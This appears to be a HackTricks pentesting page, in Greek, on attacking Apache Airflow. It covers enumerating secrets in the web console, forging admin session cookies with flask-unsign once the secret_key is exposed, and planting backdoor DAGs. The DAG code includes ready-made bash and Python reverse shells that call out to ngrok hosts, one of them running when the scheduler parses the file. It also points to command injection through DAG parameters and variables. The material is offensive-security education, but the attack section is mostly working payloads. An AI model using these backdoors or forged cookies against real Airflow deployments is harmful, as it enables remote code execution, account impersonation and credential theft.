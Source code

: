 # Ασφάλεια Apache Airflow

<details>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Βασικές Πληροφορίες

[**Το Apache Airflow**](https://airflow.apache.org) λειτουργεί ως πλατφόρμα για το **συγχρονισμό και τον προγραμματισμό αγωγών δεδομένων ή ροών εργασιών**. Ο όρος "συγχρονισμός" στο πλαίσιο των αγωγών δεδομένων σημαίνει τη διαδικασία οργάνωσης, συντονισμού και διαχείρισης πολύπλοκων ροών δεδομένων που προέρχονται από διάφορες πηγές. Ο κύριος σκοπός αυτών των συγχρονισμένων αγωγών δεδομένων είναι να παρέχουν επεξεργασμένα και καταναλώσιμα σύνολα δεδομένων. Αυτά τα σύνολα δεδομένων χρησιμοποιούνται εκτενώς από μια ποικιλία εφαρμογών, συμπεριλαμβανομένων αλλά όχι περιοριστικά εργαλείων επιχειρηματικής νοημοσύνης, επιστήμης δεδομένων και μοντέλων μηχανικής μάθησης, τα οποία είναι θεμελιώδη για τη λειτουργία εφαρμογών μεγάλων δεδομένων.

Βασικά, το Apache Airflow θα σας επιτρέψει να **προγραμματίσετε την εκτέλεση κώδικα όταν κάτι** (συμβάν, cron) **συμβεί**.

## Τοπικό Εργαστήριο

### Docker-Compose

Μπορείτε να χρησιμοποιήσετε το **αρχείο διαμόρφωσης docker-compose από** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) για να ξεκινήσετε ένα πλήρες περιβάλλον apache airflow docker. (Αν βρίσκεστε σε MacOS βεβαιωθείτε ότι δίνετε τουλάχιστον 6GB RAM στο docker VM).

### Minikube

Ένα εύκολο τρόπος **εκτέλεσης του apache airflow** είναι να το **τρέξετε με το minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Ρύθμιση του Airflow

Το Airflow μπορεί να αποθηκεύει **ευαίσθητες πληροφορίες** στη ρύθμισή του ή μπορείτε να βρείτε αδύναμες ρυθμίσεις:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Πριν ξεκινήσετε επίθεση στο Airflow, πρέπει να κατανοήσετε **πώς λειτουργούν οι άδειες πρόσβασης**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Επιθέσεις

### Απαρίθμηση Κονσόλας Ιστού

Αν έχετε **πρόσβαση στην κονσόλα ιστού**, μπορείτε να έχετε πρόσβαση σε ορισμένες ή όλες τις παρακάτω πληροφορίες:

* **Μεταβλητές** (Εδώ μπορεί να αποθηκεύονται προσαρμοσμένες ευαίσθητες πληροφορίες)
* **Συνδέσεις** (Εδώ μπορεί να αποθηκεύονται προσαρμοσμένες ευαίσθητες πληροφορίες)
* Προσπελάστε τις στο `http://<airflow>/connection/list/`
* [**Ρύθμιση**](./#airflow-configuration) (Ευαίσθητες πληροφορίες όπως το **`secret_key`** και κωδικοί μπορεί να αποθηκεύονται εδώ)
* Λίστα **χρηστών & ρόλων**
* **Κώδικας κάθε DAG** (ο οποίος μπορεί να περιέχει ενδιαφέρουσες πληροφορίες)

### Ανάκτηση Τιμών Μεταβλητών

Οι μεταβλητές μπορούν να αποθηκευτούν στο Airflow ώστε οι **DAGs** να μπορούν να **έχουν πρόσβαση** στις τιμές τους. Είναι παρόμοιο με τα μυστικά άλλων πλατφορμών. Αν έχετε **επαρκείς δικαιώματα πρόσβασης**, μπορείτε να τις προσπελάσετε στη γραφική διεπαφή στο `http://<airflow>/variable/list/`.\
Το Airflow από προεπιλογή θα εμφανίσει την τιμή της μεταβλητής στη γραφική διεπαφή, ωστόσο, σύμφωνα με [**αυτό**](https://marclamberti.com/blog/variables-with-apache-airflow/), είναι δυνατόν να οριστεί μια **λίστα μεταβλητών** των οποίων η **τιμή** θα εμφανίζεται ως **αστεράκια** στη **γραφική διεπαφή**.

![](<../../.gitbook/assets/image (164).png>)

Ωστόσο, αυτές οι **τιμές** μπορούν ακόμα να **ανακτηθούν** μέσω **CLI** (χρειάζεστε πρόσβαση στη βάση δεδομένων), εκτέλεση **αυθαίρετου DAG**, **API** προσπελάστε το σημείο πρόσβασης των μεταβλητών (το API πρέπει να ενεργοποιηθεί) και **ακόμα και η ίδια η γραφική διεπαφή!**\
Για να αποκτήσετε πρόσβαση σε αυτές τις τιμές από τη γραφική διεπαφή, απλά **επιλέξτε τις μεταβλητές** που θέλετε να αποκτήσετε πρόσβαση και **κάντε κλικ στις Ενέργειες -> Εξαγωγή**.\
Ένας άλλος τρόπος είναι να πραγματοποιήσετε μια **επίθεση βίας** στην **κρυφή τιμή** χρησιμοποιώντας το **φιλτράρισμα αναζήτησης** μέχρι να την ανακτήσετε:

![](<../../.gitbook/assets/image (152).png>)

### Ανόδος Προνομίων

Αν η ρύθμιση **`expose_config`** είναι ορισμένη σε **True**, από τον **ρόλο Χρήστη** και **πάνω** μπορούν να **διαβάσουν** τη **διαμόρφωση στον ιστό**. Σε αυτή τη ρύθμιση, εμφανίζεται το **`secret_key`**, που σημαίνει ότι οποιοσδήποτε χρήστης με αυτόν τον έγκυρο κωδικό μπορεί να **δημιουργήσει το δικό του υπογεγραμμένο cookie για να προσωποποιήσει οποιονδήποτε άλλο λογαριασμό χρήστη**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Παρασκήνιο DAG (RCE στο Airflow worker)

Εάν έχετε **πρόσβαση εγγραφής** στον τόπο όπου οι **DAGs αποθηκεύονται**, μπορείτε απλά **να δημιουργήσετε έναν** που θα σας στείλει ένα **αντίστροφο κέλυφος.**\
Σημειώστε ότι αυτό το αντίστροφο κέλυφος θα εκτελεστεί μέσα σε ένα **δοχείο εργασίας του airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Παρασκήνιο DAG (RCE στον Airflow scheduler)

Εάν ορίσετε κάτι να **εκτελείται στη ρίζα του κώδικα**, στη στιγμή της συγγραφής αυτής, θα **εκτελεστεί από τον προγραμματιστή** μετά από λίγα δευτερόλεπτα μετά την τοποθέτησή του μέσα στον φάκελο του DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Δημιουργία DAG

Εάν καταφέρετε να **διακινδυνεύσετε ένα μηχάνημα μέσα στο cluster DAG**, μπορείτε να δημιουργήσετε νέα **scripts DAGs** στον φάκελο `dags/` και θα **αντιγραφούν στα υπόλοιπα μηχανήματα** μέσα στο cluster DAG.

### Εισαγωγή Κώδικα στο DAG

Όταν εκτελείτε ένα DAG από το GUI μπορείτε να **περάσετε ορίσματα** σε αυτό.\
Συνεπώς, εάν το DAG δεν έχει κωδικοποιηθεί σωστά, θα μπορούσε να είναι **ευάλωτο στην Εισαγωγή Εντολών.**\
Αυτό συνέβη σε αυτό το CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Το μόνο που πρέπει να γνωρίζετε για να **ξεκινήσετε την αναζήτηση εισαγωγών εντολών στα DAGs** είναι ότι τα **παράμετρα** προσπελαύνονται με τον κώδικα **`dag_run.conf.get("param_name")`**.

Επιπλέον, η ίδια ευπάθεια μπορεί να συμβεί με τις **μεταβλητές** (σημειώστε ότι με επαρκή δικαιώματα θα μπορούσατε να **ελέγχετε την τιμή των μεταβλητών** στο GUI). Οι μεταβλητές προσπελαύνονται με:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Εάν χρησιμοποιηθούν για παράδειγμα μέσα σε ένα bash command, θα μπορούσατε να εκτελέσετε ένα command injection.

<details>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
